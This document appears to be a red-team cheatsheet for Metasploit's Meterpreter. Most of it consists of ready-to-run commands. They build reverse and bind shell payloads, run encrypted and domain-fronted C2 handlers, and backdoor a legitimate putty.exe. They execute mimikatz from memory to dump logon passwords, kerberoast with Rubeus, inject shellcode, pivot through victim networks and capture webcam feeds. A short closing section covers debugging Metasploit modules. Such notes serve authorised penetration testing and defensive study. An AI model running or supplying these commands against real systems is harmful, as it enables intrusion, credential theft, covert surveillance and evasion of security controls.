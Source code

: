 # Meterpreter

* [https://buffered.io/posts/staged-vs-stageless-handlers/](https://buffered.io/posts/staged-vs-stageless-handlers/)
* [https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
* [https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation](https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation)
* [https://xakep.ru/2020/07/03/metasploit-guide/](https://xakep.ru/2020/07/03/metasploit-guide/)
* [https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/](https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/)




## Cheatsheet

Quick handler launch:

```
msf > handler -H eth0 -P 443 -p windows/x64/meterpreter/reverse_https [-e x64/xor] [-x]
```

Bind RC4 payload & handler through SOCKS proxy:

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 RHOST=10.10.13.37 LPORT=443 RC4PASSWORD='Passw0rd!' -f exe -o rev.exe
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp_rc4
msf exploit(multi/handler) > set RHOST 192.168.1.11
msf exploit(multi/handler) > set LPORT 443
msf exploit(multi/handler) > set RC4PASSWORD Passw0rd!
msf exploit(multi/handler) > set PROXIES socks5:127.0.0.1:1080
msf exploit(multi/handler) > run
```

Generate a custom SSL certificate for encrypting C2 communications:

```
$ openssl req -batch -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout cert.key -out cert.crt
$ cat cert.key cert.crt > cert.pem
$ msfvenom -p ... HandlerSSLCert=./cert.pem StagerVerifySSLCert=true ...
msf exploit(multi/handler) > set HandlerSSLCert /home/snovvcrash/cert.pem
msf exploit(multi/handler) > set StagerVerifySSLCert true
```

Automation (about `exploit` flags [here](https://github.com/rapid7/metasploit-framework/blob/4049c41ac1b6f12566b055dc5442192072ea5d78/lib/msf/ui/console/command_dispatcher/exploit.rb#L17-L27)):

{% code title="auto.rc" %}
```
// sudo msfconsole -qr auto.rc
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_winhttps
set LHOST 10.10.13.37
set LPORT 443
set EXITFUNC thread
set StageEncoder x64/zutto_dekiru
set EnableStageEncoding true
set HandlerSSLCert /home/snovvcrash/cert.pem
set StagerVerifySSLCert true
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -jz
```
{% endcode %}

Start SOCKS server (default is SOCKS5):

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

Handle connections with **domain fronting**:

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=legitimate.com LPORT=443 HttpHostHeader=cdn.provider.net -f exe -o https.exe
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST legitimate.com
msf exploit(multi/handler) > set OverrideLHOST legitimate.com
msf exploit(multi/handler) > set OverrideRequestHost true
msf exploit(multi/handler) > set HttpHostHeader cdn.provider.net
msf exploit(multi/handler) > run
```

Migrate to a different architecture:

```
msf > use post/windows/manage/archmigrate
msf post(windows/manage/archmigrate) > set SESSION 1
msf post(windows/manage/archmigrate) > run
```

Switch to the next [transport](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Transport-Control) killing current session:

```
meterpreter > transport add -t reverse_tcp -l 10.10.13.37 -p 9002
meterpreter > transport list
msf > handler -H eth0 -P 9002 -p windows/x64/meterpreter/reverse_tcp
meterpreter > transport next
```

Reverse local port `3389` (on Victim, `192.168.1.11`) to local port `43389` (on Attacker):

```
meterpreter > portfwd add -l 43389 -p 3389 -r 192.168.1.11
[*] Local TCP relay created: :43389 <-> 192.168.1.11:3389
$ xfreerdp /u:administrator /p:'Passw0rd!' /v:127.0.0.1:43389
```

Routing:

```
meterpreter > run autoroute -s 192.168.10.0/24
meterpreter > run autoroute -p
Or
msf5 > route add 192.168.10.0/24 1
msf5 > route
```

Execute binary from memory:

```
meterpreter > execute -cimH -d calc.exe -f /home/snovvcrash/www/mimikatz.exe -a '"sekurlsa::logonPasswords full" "exit"'
```

[Execute](https://github.com/b4rtik/metasploit-execute-assembly) .NET assembly from memory:

```
msf > use post/windows/manage/execute_dotnet_assembly
msf post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE /home/snovvcrash/www/Rubues.exe
msf post(windows/manage/execute_dotnet_assembly) > set ARGUMENTS "kerberoast /usetgtdeleg /format:hashcat"
msf post(windows/manage/execute_dotnet_assembly) > set SESSION 1
msf post(windows/manage/execute_dotnet_assembly) > run
```

Inject shellcode:

```
msf > use post/windows/manage/shellcode_inject
msf post(windows/manage/shellcode_inject) > set SHELLCODE /home/snovvcrash/www/shellcode.bin
msf post(windows/manage/shellcode_inject) > set SESSION 1
msf post(windows/manage/shellcode_inject) > run
```

Backdoored legit executable with delayed Stdapi loading:

```
$ wget https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe
$ msfvenom -p windows/x64/meterpreter_reverse_http LHOST=eth0 LPORT=8080 EXITFUNC=thread -e x64/xor_dynamic -i 10 -k -x putty.exe -f exe -o evilputty.exe
$ sudo msfconsole -qx 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_http; set LHOST eth0; set LPORT 8080; set AutoLoadStdapi false; set EXITFUNC thread; run'
meterpreter > use unhook
meterpreter > load stdapi
```

Get web camera capture:

```
meterpreter > webcam_list
meterpreter > webcam_snap [-i <CAMERA_ID>]
meterpreter > webcam_stream
```




## Debug

* [https://github.com/deivid-rodriguez/pry-byebug](https://github.com/deivid-rodriguez/pry-byebug)

{% embed url="https://youtu.be/QzP5nUEhZeg?t=2190" %}

```
$ gem install pry-byebug
$ vi ~/.pry-byebug
```

{% code title="pry-byebug" %}
```ruby
if defined?(PryByebug)
  Pry.commands.alias_command 'c', 'continue'
  Pry.commands.alias_command 's', 'step'
  Pry.commands.alias_command 'n', 'next'
  Pry.commands.alias_command 'f', 'finish'
end

 # Hit Enter to repeat last command
Pry::Commands.command /^$/, "repeat last command" do
  _pry_.run_command Pry.history.to_a.last
end
```
{% endcode %}

```
$ cp -r /usr/share/metasploit-framework/ /opt
$ vi /opt/metasploit-framework/msfconsole
...add "require 'pry-byebug'"...
$ mkdir -p ~/.msf4/modules/exploits/linux/http/
$ cp /usr/share/metasploit-framework/modules/exploits/linux/http/packageup.rb ~/.msf4/modules/exploits/linux/http/p.rb
$ vi ~/.msf4/modules/exploits/linux/http/p.rb
...add "binding.pry"...
```
